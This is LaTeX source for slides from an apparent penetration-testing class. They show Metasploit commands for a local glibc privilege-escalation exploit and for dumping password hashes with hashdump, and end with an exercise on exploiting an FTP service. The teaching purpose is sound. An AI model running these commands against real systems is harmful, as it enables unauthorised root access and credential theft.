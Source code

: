 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}
\frametitle{Getting Admin access (1/2)}

Once we obtained a session, we can execute some of the local exploits suggested by the previous script:

\begin{itemize}
    \item\texttt{meterpreter > background}
    \item\texttt{msf5 > use exploit/linux/local/glibc\char`\_ld\char`\_audit\char`\_dso\char`\_load\char`\_priv\char`\_esc}
    \item\texttt{msf5 > set session 8} (use right session number)
    \item\texttt{msf5 > set LHOST 192.168.56.1}
    \item\texttt{msf5 > run}
\end{itemize}

\end{frame}

\begin{frame}
\frametitle{Getting Admin access (2/2)}

After we obtain root privileges, we can run more scripts:

\begin{itemize}
    \item Get the password hashes:\\
    \texttt{meterpreter > run post/linux/gather/hashdump}
\end{itemize}

\end{frame}

\begin{frame}
\frametitle{Challenge}

We know there is an FTP service running in port 21 at our target. Exploit this service.

\begin{itemize}
    \item Find the program name and version.
    \item Find an exploit in Metasploit.
    \item Configure the exploit.
    \item Execute the exploit.
    \item Profit.
    \item Extra credit: If not root, get root.
\end{itemize}

\end{frame}
\end{document}
